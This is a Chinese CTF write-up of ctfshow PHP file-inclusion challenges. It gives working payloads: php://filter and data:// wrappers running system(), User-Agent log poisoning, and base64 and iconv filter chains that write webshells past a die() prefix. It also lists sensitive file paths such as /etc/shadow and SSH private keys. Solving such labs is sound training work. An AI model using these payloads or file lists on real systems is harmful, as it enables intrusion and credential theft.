

# 文件包含

## Web78

payload

```php
?file=php://filter/convert.base64-encode/resource=flag.php
```


## Web79

题目

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:10:14
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:12:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```


payload:

```
data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=
PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs= ==> <?php system('cat flag.php');
```

```
/?file=php://filter/read=convert.bas64_encode/resource=flag.php
```

## Web80

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:26:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

### 方法一：文件包含webshell

payload

```
包含日志文件 进行getshell 
Useragent: <?php system($_GET['a']);?>
日志文件路径： ?file=/var/log/nginx/access.log&a=ls
```

### 方法二：大小写绕过

```
/?file=PHP://input   // phP
<?php system("ls");?>
```

## Web81

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 15:51:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

payload

```
包含日志文件 进行getshell 
Useragent: <?php system($_GET['a']);?>
日志文件路径： ?file=/var/log/nginx/access.log&a=ls
```

## Web87：file_put_content和死亡·杂糅

https://xz.aliyun.com/t/8163?time__1311=n4%2BxnD0Dc7GQ0%3DDCDgADlhjm57KWwo3lErTD#toc-3

https://www.leavesongs.com/PENETRATION/php-filter-magic.html

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 21:57:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

使用filter过滤器对输入流进行base64解码扰乱插入的`<?php die('大佬别秀了');?>`，使其不能解析为php，而后面插入的content内容为想要插入的攻击代码的base64编码即可，这样后面的内容就能正常解码出攻击代码，这样既绕过了die也成功注入了攻击代码。不过要使前面`<?php die('大佬别秀了');?>`解码成功还要补位使可解码字符为8的倍数，由于base64编码的组成字符只有`ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/`所以`<?');>`不算有效字符，有效字符只有phpdie不满足4的倍数，所以构造如下content：

```
# aa为补齐字符phpdieaa共8位满足base64解码条件，补齐字符只要再base64编码字符集中即可
content=aaPD9waHAgaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pO3N5c3RlbSgkX0dFVFsnY21kJ10pOw==
PD9waHAgaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pO3N5c3RlbSgkX0dFVFsnY21kJ10pOw== 
--> <?php highlight_file(__FILE__);system($_GET['cmd']);
```

既然要使用base64解码扰乱原始字符就使用了filter伪协议：

```
php://filter/write=convert.base64-decode/resource=1.php
file要经过两次url编码因为file_put_contents(urldecode($file)
中间件解码了一次上述代码有解码了一次
file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%32%65%25%37%30%25%36%38%25%37%30
另外由于file要进行两次编码，如下几个替换都无效，因为在替换时的file还有一层url编码
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
```

完整payload（post参数要url编码）

```http
POST /?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%32%65%25%37%30%25%36%38%25%37%30 HTTP/1.1
Host: 1b09a7e9-c2f5-4bc1-80ea-d0ba2f2918b3.challenge.ctf.show
Content-Length: 86
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="130", "Microsoft Edge";v="130", "Not?A_Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://1b09a7e9-c2f5-4bc1-80ea-d0ba2f2918b3.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://1b09a7e9-c2f5-4bc1-80ea-d0ba2f2918b3.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close

content=aaPD9waHAgaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pO3N5c3RlbSgkX0dFVFsnY21kJ10pOw%3D%3D
```


ctfshow{7c5fc6fb-824a-4ab1-a2eb-01264953da6e}

## Web88

题目

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

没有过滤`:`考虑伪协议由于过滤了一些特殊字符在构造payload时考虑data://text/plain;base64,协议传入base64编码后的字符绕过

注意这里过滤了`=+-`在构造base64编码的payload时要注意base64结尾通常会产生的+和=

payload

```
/?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7&cmd=ls
PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7 --><?php system($_GET['cmd']);
```

ctfshow{811fdad3-ab61-4fe2-92f5-7e5760be98fe}

## Web116

下载视频

binwalk -e 下载.mp4


dd if=下载.mp4 of=ctfshow.png skip=40994603 bs=1 // 提取文件


得到如下图片：



这些过滤好像没什么用直接fuzz找文件flag.php,flag.txt,fl0g.php,fl0g.txt,/flag.php,/flag.txt,/fl0g.php,/fl0g.txt


ctfshow{23151a03-9c44-4cff-842a-1ba4973fcbb5}

## Web117

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: yu22x
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 18:16:59

*/
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

题目禁用了杂糅可以用的过滤器zlib、utf、rot13、base64、string

要利用上面的杂糅过`<?php die();?>`的方法只能找新的替代，可以用convert.iconv这个过滤器，这个过滤器相当于使用了iconv函数

```php
string iconv(string input_encoding, string output_encoding, string str);
```

- `input_encoding`：输入字符串的编码。
- `output_encoding`：转换后的编码。
- `str`：需要转换编码的原始字符串。

这里使用的是UCS-2编码（也可以使用其他可以用于杂糅的编码，比如UCS-4、USC-16不过这些编码都要注意，编码文本的要求比如UCS-2要求编码字符是2的倍数，UCS-4是4的倍数，USC-16是16的倍数）将原始payload转换成编码后字符

```php
<?php
    echo iconv("UCS-2LE","UCS-2BE",'<?php eval($_GET[aa]);?>');
?>
    
// --->  ?<hp pvela$(G_TEa[]a;)>?
```

然后构造payload

file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php

contents=?<hp pvela$(G_TEa[]a;)>? //注意要进行url编码

完整payload：

```http
POST /?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php HTTP/1.1
Host: f15124d9-4686-436c-9aae-2b94034b35d8.challenge.ctf.show
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="130", "Microsoft Edge";v="130", "Not?A_Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://f15124d9-4686-436c-9aae-2b94034b35d8.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://f15124d9-4686-436c-9aae-2b94034b35d8.challenge.ctf.show/1.php?aa=system(%27cat%20flag.php%27);
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close

contents=%3F%3Chp+pvela%24%28G_TEa%5B%5Da%3B%29%3E%3F
```

这里就往1.php文件中写入了webshell

输入/1.php?aa=highlight_file('1.php');

可以查看1.php中前面的`<?php die();?>`已经被编码后的字符替代


接下来直接执行命令查看flag即可system(ls);system('cat flag.php');

ctfshow{2b2fd8cd-8b76-4f5d-a1f1-6d2caa4fcd2c}


## 文件包含利用

### 一、包含一些敏感的配置文件
windows常见的敏感文件路径:

```
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息
C:\Windows\win.ini //Windows系统的一个基本系统配置文件
```

Linux常见的敏感文件路径:

```
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
/etc/passwd
/etc/shadow
/etc/my.cnf //mysql配置文件
/etc/httpd/conf/httpd.conf //apache配置文件
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql历史命令记录文件
/proc/mounts //记录系统挂载设备
/porc/config.gz //内核配置文件
/var/lib/mlocate/mlocate.db //全文件路径
/porc/self/cmdline //当前进程的cmdline参数
/etc/apache2/config
/etc/apache2/apache2.conf
/etc/apache2/envvars
```

### 碰到`file_get_contents()`就要想到用`php://input`绕过

